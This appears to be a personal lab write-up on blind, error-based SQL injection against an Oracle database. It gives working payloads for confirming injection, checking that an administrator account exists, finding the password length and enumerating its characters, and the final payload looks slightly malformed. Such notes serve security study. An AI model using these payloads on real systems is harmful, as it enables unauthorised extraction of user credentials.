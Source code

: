 # Blind SQL injection with conditional errors (ORACLE DB)

* For this case is really important to understand that, the only notice that we have to know if something has been introduce ok or not is if there is an error or not.

For the case that i was studying, i have tried to cause the error using SQL statement. However it was a oracle database, so,  i was able to retrieve useful information  using oracle commands

<mark style="color:orange;">**'||(select case when (1=2) then to\_char(1/0) else null end from dual)||'**</mark>

<figure><img src="../../../.gitbook/assets/sql-1.png" alt=""><figcaption></figcaption></figure>

If the statement is correct 1=1 we generate an error

<figure><img src="../../../.gitbook/assets/sql-correct.png" alt=""><figcaption></figcaption></figure>

if the statement is incorrect we do not generate any error

<figure><img src="../../../.gitbook/assets/sql2-imcorrect.png" alt=""><figcaption></figcaption></figure>

Then to enumerate the database lets see if administrator user exist:

`'||(select case when (1=1) then to_char(1/0) else '' end from users where username='administrator')||'`

In this statement if username='administrator' is True the part of the instruction where the error exist will be invoque:\
`select case when (1=1) then to_char(1/0)`&#x20;

Otherwise, if username='administrator' doesn't exist it will not show any error

<figure><img src="../../../.gitbook/assets/sql-hard.png" alt=""><figcaption><p>Administrator user exist</p></figcaption></figure>

The next step is to try to obtain the password length, to do this we use the following command:

\
`'||(select case when (1=1) then to_char(1/0) else '' end from users where username='administrator' and length(password)>=20)||'`

length(password)>$ we fuzz that statement and check the output, as we can see the error stop at line 21 it means that the password has a length of 20 characters. The next step is to detect the value of each position.

<figure><img src="../../../.gitbook/assets/sql-password length.png" alt=""><figcaption></figcaption></figure>

Enumerating username/password position character in oracle

`'||(select case when substr(username,1,1)='§a§' then to_char(1/0) else '' end from users where username='administrator'||'`
